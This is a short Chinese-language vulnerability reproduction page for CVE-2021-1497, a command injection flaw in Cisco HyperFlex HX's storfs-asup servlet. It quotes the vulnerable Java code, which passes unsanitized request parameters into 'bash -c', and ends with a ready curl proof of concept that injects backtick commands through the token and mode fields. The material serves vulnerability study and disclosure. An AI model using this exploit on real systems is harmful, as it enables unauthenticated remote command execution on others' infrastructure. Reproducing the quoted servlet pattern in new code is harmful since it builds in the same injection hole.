

Cisco HyperFlex HX storfs-asup 远程命令执行漏洞 CVE-2021-1497¶
漏洞描述¶
思科在研究人员Nikita Abramov和Mikhail Klyuchnikov发现的HyperFlex HX数据平台中修复了两个Unauth RCE和一个任意文件上载
漏洞影响¶
Cisco HyperFlex HX
漏洞复现¶
出现漏洞的代码
protected void processRequest(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
String action = request.getParameter("action");
if (action == null) {
String msg = "Action for the servlet need be specified.";
writeErrorResponse(response, msg);
return;
}
try {
String token = request.getParameter("token");
StringBuilder cmd = new StringBuilder();
cmd.append("exec /bin/storfs-asup ");
cmd.append(token);
String mode = request.getParameter("mode");
cmd.append(" ");
cmd.append(mode);
cmd.append(" > /dev/null");
logger.info("storfs-asup cmd to run : " + cmd);
ProcessBuilder pb = new ProcessBuilder(new String[] { "/bin/bash", "-c", cmd.toString() });
logger.info("Starting the storfs-asup now: ");
long startTime = System.currentTimeMillis();
Process p = pb.start();
InputStream errStream = p.getErrorStream();
String errMsg = FileUtils.readToString(errStream);
int exitCode = p.waitFor();
long timeTaken = System.currentTimeMillis() - startTime;
logger.info("storfs-asup command completed in (" + timeTaken + " ) milliseconds, with exit code (" + exitCode + ") and error message: " + errMsg);
errStream.close();
OutputStream outStream = p.getOutputStream();
outStream.flush();
outStream.close();
if (exitCode != 0)
throw new Exception(errMsg);
} catch (IOException ex) {
logger.error("Failed to generate asup: " + ex);
} catch (Exception ie) {
logger.error("Failed to run the /bin/storfs-asup command.");
} finally {
logger.info("Done executing asup command. ");
}
}
POC为
curl -v http://xxx.xxx.xxx.xxx/storfs-asup -d 'action=&token=`id`&mode=`id`'
